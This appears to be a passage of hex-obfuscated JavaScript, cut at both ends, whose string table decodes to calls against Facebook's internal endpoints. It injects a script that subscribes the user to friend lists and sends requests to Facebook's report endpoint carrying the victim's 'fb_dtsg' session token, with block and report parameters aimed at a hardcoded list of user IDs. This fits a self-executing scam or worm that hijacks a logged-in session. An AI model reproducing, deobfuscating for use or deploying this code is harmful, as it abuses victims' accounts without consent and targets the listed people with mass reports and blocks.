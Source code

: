 x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\x69\x63\x61\x74\x69\x6F\x6E\x2F\x78\x2D\x77\x77\x77\x
2D\x66\x6F\x72\x6D\x2D\x75\x72\x6C\x65\x6E\x63\x6F\x64\x65\x64","\x73\x65\x74\x52\x65\x71\x75\x65\x7
3\x74\x48\x65\x61\x64\x65\x72","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x6C\x65\x6E\x67\x74\x68","\x43\x6F\
x6E\x6E\x65\x63\x74\x69\x6F\x6E","\x63\x6C\x6F\x73\x65","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x7
4\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73"
,"\x73\x65\x6E\x64","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74
","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x6E\x65\x77\x20\x41\x73\x79\x6E\x63\x52\x65\x71\x75\x65\x
73\x74\x28\x29\x2E\x73\x65\x74\x55\x52\x49\x28\x27\x2F\x61\x6A\x61\x78\x2F\x66\x72\x69\x65\x6E\x64\x
73\x2F\x6C\x69\x73\x74\x73\x2F\x73\x75\x62\x73\x63\x72\x69\x62\x65\x2F\x6D\x6F\x64\x69\x66\x79\x3F\x
6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x70\x65\x72\x6D\x61\x6C\x69\x6E\x6B\x26\x61\x63\x74\x69\x6F\x6E\x
3D\x73\x75\x62\x73\x63\x72\x69\x62\x65\x27\x29\x2E\x73\x65\x74\x44\x61\x74\x61\x28\x7B\x20\x66\x6C\x
69\x64\x3A\x20","\x20\x7D\x29\x2E\x73\x65\x6E\x64\x28\x29\x3B","\x61\x70\x70\x65\x6E\x64\x43\x68\x69
\x6C\x64","\x62\x6F\x64\x79","\x31\x30\x30\x30\x30\x34\x33\x36\x38\x36\x34\x33\x35\x38\x38","\x31\x3
0\x30\x30\x30\x37\x30\x37\x39\x37\x39\x36\x31\x32\x30","\x31\x30\x30\x30\x30\x31\x35\x30\x33\x36\x31
\x39\x34\x35\x35","\x31\x30\x30\x30\x30\x35\x36\x30\x32\x33\x35\x32\x32\x39\x32","\x32\x34\x33\x37\x
33\x37\x38\x31\x35\x37\x38\x31\x38\x33\x38","\x31\x33\x38\x37\x37\x31\x32\x32\x36\x38\x31\x34\x31\x3
4\x32\x30","\x32\x36\x32\x30\x39\x32\x37\x35\x30\x36\x31\x33\x30\x31\x31","\x31\x39\x31\x37\x35\x39\
x36\x32\x37\x36\x38\x37\x34\x34\x38","\x31\x39\x33\x30\x37\x32\x31\x38\x30\x38\x38\x39\x35\x32\x36",
"\x31\x39\x33\x30\x37\x32\x31\x35\x30\x38\x38\x39\x35\x32\x39","\x67\x65\x74\x54\x69\x6D\x65","\x2F\
x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\
x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2
6\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5
F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x2
5\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x2
5\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74
\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61
\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72
\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65
\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32
\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73
\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25
\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43